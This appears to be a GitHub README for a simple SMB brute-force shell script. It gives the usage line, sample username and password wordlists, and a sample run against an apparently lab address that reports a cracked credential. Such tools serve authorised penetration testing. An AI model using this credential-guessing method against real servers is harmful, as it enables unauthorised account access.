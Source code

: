 # VSSB
Very simple SMB brute force
\
\
Some complex tools may fail sometimes: this script just tries to login via "smbclient"
\
\
```
usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123
```
\
Considering the following file (containing a list of users):
```
kali@kali:~/Desktop$ cat usrs.txt
pippo
smith
luca
```
\
and the following file (containing a list of passwords):
```
kali@kali:~/Desktop$ cat pwds.txt
123456
sandro
omg123!!!
Thestrokes23  
pippo
password
```
\
you can use the scripts as follows:
```
kali@kali:~/Desktop$ ./vssb.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.123

starting...

Found WORKGROUP@smith:Thestrokes23

done!
```

